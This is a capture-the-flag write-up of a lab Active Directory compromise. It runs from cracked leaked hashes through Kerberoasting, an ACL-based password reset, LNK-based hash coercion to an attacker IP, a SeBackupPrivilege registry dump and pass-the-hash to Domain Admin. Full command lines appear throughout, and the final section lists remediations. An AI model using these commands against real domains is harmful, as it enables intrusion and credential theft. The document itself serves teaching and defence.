







# BuildingMagic: HackSmarter (Active Directory)

**Platform:** HackSmarter  **Difficulty:** Hard  **Category:** Active Directory / Full Domain Compromise
**Domain:** `buildingmagic.local`  ·  **DC:** `dc01.buildingmagic.local`

> **Note on redaction:** This is a public write-up of a paid-platform lab, so recovered secrets (plaintext passwords, captured hashes, NT hashes) are masked as `‹redacted›`. The methodology, commands, and attack chain are complete. *(Verify HackSmarter's publishing policy before making public. I can restore the literal values if their terms allow.)*

## Executive Summary & Methodology
This engagement models a realistic internal red-team scenario: starting from a single leaked credential set and ending in full Domain Admin control. There was no exotic 0-day here; the compromise was built entirely from **misconfiguration and identity weakness**, which is exactly what real Active Directory attacks look like. The chain moves from credential cracking, to graph-based attack-path planning with BloodHound, through Kerberoasting and ACL abuse, to coerced authentication, and finally to a `SeBackupPrivilege`-driven credential dump and pass-the-hash to a Domain Admin account. Each link is a distinct, defensible control failure.

**Attack chain at a glance:**
`Leaked DB → crack → r.widdleton → BloodHound → Kerberoast r.haggard → ACL reset of h.potch → writable-share LNK capture → h.grangon → SeBackupPrivilege → SAM/SYSTEM dump → local Admin hash → Pass-the-Hash → a.flatch (Domain Admin)`

---

## Phase 1: Initial Access (Cracking the Leaked Database)
The starting point was a leaked user table containing usernames and **unsalted MD5** password hashes. These were run against `rockyou`:

```bash
hashcat -m 0 leaked_hashes.txt /usr/share/wordlists/rockyou.txt
```

After adding the domain to `/etc/hosts` for name resolution:

```bash
# /etc/hosts
<TARGET_IP>   buildingmagic.local dc01.buildingmagic.local
```

recovered credentials were validated against the domain before relying on them:

```bash
netexec smb dc01.buildingmagic.local -u r.widdleton -p '‹redacted›'
# [+] buildingmagic.local\r.widdleton  (valid)
```

### Error & Correction 1: Not Every Cracked Credential Is Live
* **The Assumption:** A cracked hash equals a working login.
* **The Reality:** `t.ren`'s cracked value (`shadowhex7`) **failed** authentication, a stale or rotated password. Only `r.widdleton` validated.
* **The Lesson:** Always validate credentials against the target before building a plan on them; cracking success ≠ access.


---

## Phase 2: Enumeration (Mapping the Domain with BloodHound)
With a valid foothold identity, I collected the full AD graph:

```bash
bloodhound-python -u r.widdleton -p '‹redacted›' -d buildingmagic.local -dc dc01.buildingmagic.local -c ALL,LoggedOn
```

### Error & Correction 2: DNS/DHCP Resolution Failure
* **The Problem:** Collection initially failed on name resolution (DHCP/DNS misconfig in my attack VM).
* **The Correction:** Pointing the collector directly at the DC by FQDN/IP (`-dc`) bypassed the broken resolver and completed the run.

I then ingested the resulting JSON into **BloodHound Community Edition**, installed locally via Docker Desktop and the official `bloodhound-cli` quickstart.

**Analysis:** `r.widdleton` held no useful rights and no interesting group memberships directly, a dead end on its own. But the graph surfaced a viable path forward: **Kerberoast `r.haggard`**, then use `r.haggard` to **force-reset `h.potch`**.

*Risk Analysis Note: BloodHound converts opaque AD relationships into an explicit attack path. It is equally a blue-team tool: defenders who run it on their own domain see the same shortcuts an attacker would.*

---

## Phase 3: Kerberoasting `r.haggard`
Using the `r.widdleton` credentials, I requested the Kerberos service ticket (TGS) for the SPN-enabled account `r.haggard` and cracked it offline:

```bash
hashcat -m 13100 kerberoast_r.haggard.txt /usr/share/wordlists/rockyou.txt
```

The service account's weak password cracked successfully, yielding the `r.haggard` credentials. *(Modern hashcat auto-detects the mode, but `-m 13100` is the explicit type for Kerberoast TGS-REP.)*


---

## Phase 4: ACL Abuse (Forced Password Reset of `h.potch`)
BloodHound showed `r.haggard` held rights allowing a password reset over `h.potch`. I abused this with `net rpc`:

```bash
net rpc password "h.potch" "‹new-password›" \
  -U "buildingmagic.local"/"r.haggard"%"‹redacted›" \
  -S dc01.buildingmagic.local
```

### Error & Correction 3: Silent Success
* **The Confusion:** The command returned **no output**: no success message, no error.
* **The Verification:** Rather than assume failure, I confirmed by authenticating as `h.potch` with the new password and enumerating shares, and access succeeded, proving the reset took. *(I also had to specify the DC by host for `-S`/`-U` rather than the bare domain name.)*


---

## Phase 5: Coerced Authentication (Malicious LNK in a Writable Share)
Enumeration as `h.potch` revealed a **writable SMB share** (`FileShare`). A writable share is a coercion primitive: planting a malicious `.lnk` file forces any user browsing the share to authenticate back to me, leaking their NetNTLMv2 hash. I used netexec's `slinky` module:

```bash
nxc smb buildingmagic.local -u h.potch -p '‹redacted›' \
  -M slinky -o server=<KALI_IP> name=important
```

### Error & Correction 4: Over-Engineering the Payload
* **The Mistake:** I over-specified the module (share name, an elaborate file name) after following instructor examples too literally.
* **The Correction:** Stripping it back to the essentials worked, and the `-o server=` value **must be lowercase**. Simpler was correct.

With a listener catching authentications, browsing activity leaked the NetNTLMv2 hash for **`h.grangon`**, cracked offline:

```bash
hashcat -m 5600 grangon_netntlmv2.txt /usr/share/wordlists/rockyou.txt
# H.GRANGON::BUILDINGMAGIC:‹redacted hash›  →  ‹redacted plaintext›
```


---

## Phase 6: Foothold (Interactive Shell as `h.grangon`)
`h.grangon` is a member of **Remote Management Users**, enabling WinRM access:

```bash
evil-winrm -i dc01.buildingmagic.local -u h.grangon -p '‹redacted›'
```

Checking privileges immediately revealed the escalation vector:

```text
*Evil-WinRM* PS C:\Users\h.grangon\Documents> whoami /priv

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled   ← the win
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


---

## Phase 7: Privilege Escalation (`SeBackupPrivilege` → Credential Dump)
`SeBackupPrivilege` lets a user read any file for "backup" purposes, including the protected registry hives that hold local credential material. I exported them and dumped the hashes offline:

```powershell
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
```

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
# [*] Target system bootKey: 0x‹redacted›
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:‹redacted-NT-hash›:::
```

This yielded the local **Administrator** NT hash.


---

## Phase 8: Pass-the-Hash → Pivot to Domain Admin
### Error & Correction 5: Hash Format for Pass-the-Hash
* **The Error:** Passing the full `LM:NT` pair to evil-winrm returned `Error: Invalid hash format`.
* **The Fix:** evil-winrm's `-H` expects **only the NT hash**, not the `LM:NT` combination. Dropping the LM half resolved it.

```bash
evil-winrm -i dc01.buildingmagic.local -u Administrator -H ‹redacted-NT-hash›
```

The recovered Administrator hash was **reused** across the environment. Passing it against the final un-compromised user, **`a.flatch`**, granted a shell as **`a.flatch`**, an account BloodHound flags as **Tier Zero** (`Admin Count: TRUE`, member of the domain **Administrators** group): full Domain Admin-level control.

```bash
evil-winrm -i dc01.buildingmagic.local -u a.flatch -H ‹redacted-NT-hash›
```

```text
*Evil-WinRM* PS C:\Users\a.flatch\Documents> whoami /priv
# Full Domain Admin privilege set — SeDebugPrivilege, SeTakeOwnershipPrivilege,
# SeRestorePrivilege, SeImpersonatePrivilege, SeLoadDriverPrivilege, ... (Enabled)
```

**Domain compromised.** From a single leaked credential to Domain Admin.



---

## Business & Operational Risk Impact
Every step maps to a fixable control failure, in rough priority:

* **Weak & reused credentials (root cause):** Unsalted MD5 storage and `rockyou`-crackable passwords made the leaked database instantly usable. Enforce strong password policy, ban common passwords, and store credentials with modern salted hashing. Hash/password **reuse** across accounts is what enabled the final pivot to Domain Admin.
* **Kerberoastable service account:** `r.haggard` had an SPN and a weak password. Service accounts should use long, random passwords (or gMSAs), which makes offline cracking infeasible.
* **Excessive ACLs:** `r.haggard`'s force-reset rights over `h.potch` handed the attacker a free identity. Audit and minimize `ForceChangePassword`/`GenericAll`-style rights with tools like BloodHound.
* **Writable shares → coerced authentication:** The writable `FileShare` allowed an LNK-based hash-leak attack. Restrict write access, and deploy SMB signing to blunt relay/coercion.
* **Over-provisioned privileges:** `SeBackupPrivilege` on a non-administrative WinRM user is effectively a path to every local secret. Grant such privileges only to dedicated, monitored backup accounts.
* **Business impact:** Full domain compromise means total control of identity, data, and systems. An attacker could deploy ransomware, exfiltrate regulated data, or persist indefinitely. In a real environment this is a worst-case, board-level incident.
---

## Part 2: ShareThePain *(write-up in progress)*
This box is the second half of a two-part HackSmarter engagement. **BuildingMagic** (above) covered the initial domain compromise; **ShareThePain** continues the chain and will be documented here shortly.

> 🚧 **Write-up coming soon.** Check back for the full methodology.
